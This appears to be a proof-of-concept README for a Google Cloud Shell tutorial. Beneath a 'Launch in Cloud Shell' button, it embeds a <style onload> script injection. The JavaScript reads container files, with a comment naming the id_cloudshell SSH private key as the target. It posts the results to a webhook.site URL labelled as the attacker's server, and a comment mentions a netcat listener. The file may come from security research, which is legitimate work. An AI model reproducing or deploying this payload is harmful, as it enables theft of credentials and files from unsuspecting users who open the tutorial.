 

[![Launch in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https%3A%2F%2Fconsole.cloud.google.com%2F%3Fcloudshell_git_repo%3Dhttps%3A%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta%26cloudshell_tutorial%3Dtest2.md)

 

----

<style onload="{   
    var file_results = []  
    // this scape the container and get the ssh id_cloudshell private key         
    setTimeout(function(){ 
        // send_files(file_results)    
    },5000)  
 
    // function to read any file given the path with file protocol per example 'file:///etc/hostname'
    function read_file(file_to_read){
        var container_url = 'https://' + location.host + '/files/?uri='
        var get_file_id_url = container_url + file_to_read
        console.log(get_file_id_url) 
        fetch(get_file_id_url) // convert response to json 
            .then(response => { return response.json() } )
            .then(json => {
                var container_download_url = 'https://' + location.host + '/files/download/?id='
                var download_url = container_download_url + json.id
                fetch(download_url) 
                    .then(response => { return response.text() } )
                    .then(text => { 
                        console.log(file_to_read + ' '+ text)
                        file_results.push(file_to_read + ' '+ text)  
                    })
            })  
    }
 
    function send_files(result){ 
         // need to set netcat to listen per example nc -lvvv 55555
         let attacker_server =  '  https://webhook.site/8714cbf4-0235-49e8-9ecb-6cc153712f85'
         fetch(attacker_server, {
                method: 'post',
                body: JSON.stringify(result)
         })
    }
 
}"> 
  
 
